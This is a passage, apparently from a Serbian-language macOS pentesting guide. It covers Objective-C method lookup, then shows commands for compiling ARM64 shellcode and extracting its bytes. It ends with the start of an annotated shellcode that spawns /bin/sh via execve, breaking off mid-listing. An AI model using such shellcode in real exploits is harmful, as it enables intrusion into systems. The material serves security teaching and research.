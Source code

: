 Kada se ova funkcija pozove, potrebno je pronaći pozvanu metodu označene instance, za to se vrše različite pretrage:

- Izvršiti optimističku pretragu u kešu:
- Ako je uspešno, gotovo
- Zauzeti runtimeLock (čitanje)
- Ako (realizuj && !cls->realized) realizuj klasu
- Ako (inicijalizuj && !cls->initialized) inicijalizuj klasu
- Pokušaj keš vlastite klase:
- Ako je uspešno, gotovo
- Pokušaj listu metoda klase:
- Ako je pronađeno, popuni keš i gotovo
- Pokušaj keš nadklase:
- Ako je uspešno, gotovo
- Pokušaj listu metoda nadklase:
- Ako je pronađeno, popuni keš i gotovo
- Ako (resolver) pokušaj metod resolver, i ponovi od pretrage klase
- Ako si još ovde (= sve ostalo je propalo) pokušaj forwarder

### Shellcodes

Da bi se kompajlirao:
```bash
as -o shell.o shell.s
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib

# You could also use this
ld -o shell shell.o -syslibroot $(xcrun -sdk macosx --show-sdk-path) -lSystem
```
Da biste izvukli bajtove:
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/b729f716aaf24cbc8109e0d94681ccb84c0b0c9e/helper/extract.sh
for c in $(objdump -d "s.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done
```
Za novije macOS:
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/fc0742e9ebaf67c6a50f4c38d59459596e0a6c5d/helper/extract.sh
for s in $(objdump -d "s.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n $s | awk '{for (i = 7; i > 0; i -= 2) {printf "\\x" substr($0, i, 2)}}'
done
```
<details><summary>C kod za testiranje shellcode-a</summary></details>

#### Shell

Preuzeto sa [**ovde**](https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/shell.s) i objašnjeno.

{{#tabs}}
{{#tab name="with adr"}}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
```